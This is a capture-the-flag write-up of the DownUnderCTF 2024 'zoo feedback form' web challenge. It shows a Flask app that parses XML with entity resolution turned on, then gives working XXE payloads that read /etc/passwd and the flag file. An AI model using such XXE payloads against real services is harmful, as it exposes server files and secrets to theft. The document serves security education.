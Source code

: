 # zoo feedback form

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @siunam
- 693 solves / 100 points
- Author: @richighimi
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

Author: richighimi

[https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev](https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev)

## Enumeration

Index page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161124.png)

In here, we can submit feedback to the Zoo.

Let's try to submit some random inputs:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161226.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161235.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240708161253.png)

When we clicked the "Submit Feedback" button, it'll send a POST request to `/` with an XML body data.

There's not much we can do in here! Let's read this web application's source code!

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/web/zoo-feedback-form/zoo-feedback-form.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/zoo-feedback-form)-[2024.07.08|16:14:01(HKT)]
└> file zoo-feedback-form.zip 
zoo-feedback-form.zip: Zip archive data, at least v1.0 to extract, compression method=store
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2024/web/zoo-feedback-form)-[2024.07.08|16:14:02(HKT)]
└> unzip zoo-feedback-form.zip 
Archive:  zoo-feedback-form.zip
   creating: zoo-feedback-form/
  inflating: zoo-feedback-form/Dockerfile  
   creating: zoo-feedback-form/main-app/
 extracting: zoo-feedback-form/main-app/flag.txt  
   creating: zoo-feedback-form/main-app/static/
  inflating: zoo-feedback-form/main-app/static/styles.css  
   creating: zoo-feedback-form/main-app/templates/
  inflating: zoo-feedback-form/main-app/templates/index.html  
  inflating: zoo-feedback-form/main-app/app.py  
  inflating: zoo-feedback-form/requirements.txt  
```

After reviewing the source code, we have the following findings:

1. This web application uses Python's Flask web application framework and XML to handle data.
2. There's no routes (Endpoints) to read the flag.

Now, let's dive into this web application's main logic, `zoo-feedback-form/main-app/app.py`!
{% raw %}
```python
from flask import Flask, request, render_template_string, render_template
from lxml import etree

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
{% endraw %}
In here, we can see that the POST route parses our XML data using library `lxml`.

After parsing our XML data, it'll get the `<feedback>` element's text inside the `<root>` element and use Jinja template engine to render our `<feedback>` element's text.

When reviewing source code, if the web application uses XML to process data, it's susceptible to be vulnerable for **XML External Entity (XXE) Injection**.

In the application's XML parser (`etree.XMLParser`), the `resolve_entities` is set to `True`. As the name suggested, **the XML parser will replace entities by their text value, which is vulnerable to XXE**!

> Note: XML entities can be used to tell the XML parser to fetch specific content on the web server.

## Exploitation

With the above knowledge, we can try to exploit the XXE vulnerability to **read arbitrary file** from the server's filesystem with the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>
    <feedback>&xxe;</feedback>
</root>
```

In this payload, we defines an external entity called `&xxe;` with the value of file `/etc/passwd`.

Let's try the above payload!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240708163209.png)

Nice! It worked!

Let's read the flag file this time!

But wait, where's the flag file location?

**If we look at `zoo-feedback-form/Dockerfile`, the web application's directory is at `/app` (`WORKDIR /app`):**
```bash
FROM python:3.9-slim

WORKDIR /app

COPY requirements.txt .

RUN pip install -r requirements.txt

COPY main-app/ .

EXPOSE 80

CMD [ "python", "app.py" ]
```

**Hence, the flag file is at `/app/flag.txt`:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///app/flag.txt'>]>
<root>
    <feedback>&xxe;</feedback>
</root>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DownUnderCTF-2024/images/Pasted%20image%2020240708163514.png)

- **Flag: `DUCTF{emU_say$_he!!0_h0!@_ci@0}`**

## Conclusion

What we've learned:

1. XML External Entity (XXE) injection